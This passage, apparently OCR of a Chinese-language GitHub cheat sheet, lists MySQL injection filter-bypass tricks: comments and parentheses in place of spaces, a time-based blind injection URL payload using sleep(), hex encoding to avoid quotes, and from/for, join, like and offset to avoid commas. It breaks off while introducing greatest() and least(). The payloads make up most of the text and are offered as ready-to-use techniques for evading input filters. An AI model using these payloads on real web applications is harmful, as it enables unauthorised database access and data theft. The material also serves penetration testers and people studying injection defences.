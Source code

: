   `/**/union/**/`

- 括号绕过空格

  如果空格被过滤，括号没有被过滤，可以用括号绕过。

  在mysql中，括号是用来包围自查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

  ```mysql
  ?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
  
  ```

  from for属于逗号绕过，下面会有。

- 引号绕过

  使用十六进制

  ```mysql
  select column_name  from information_schema.tables where table_name="users"
  ```

  ```mysql
  select column_name  from information_schema.tables where table_name=0x7573657273
  ```

- 逗号绕过

  使用from或者offset

  在使用盲注的时候，需要使用到substr(),mid(),limit.这些子语句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方法来解决：

  ```mysql
  select substr(database() from 1 for 1);
  select mid(database() from 1 for 1);
  ```

  使用join

  ```mysql
  union select 1,2     #等价于
  union select * from (select 1)a join (select 2)b
  ```

  使用like???

  ```mysql
  select ascii(mid(user(),1,1))=80   #等价于
  select user() like 'r%'
  ```

  对于limit可以使用offset来绕过：

  ```mysql
  select * from news limit 0,1
  # 等价于下面这条SQL语句
  select * from news limit 1 offset 0
  ```

- 比较符号（><)绕过

  使用greatest()、least()：前者返回最大值，后者返回最小值。greatest()接收多个参数，返回输入参数的最大值。
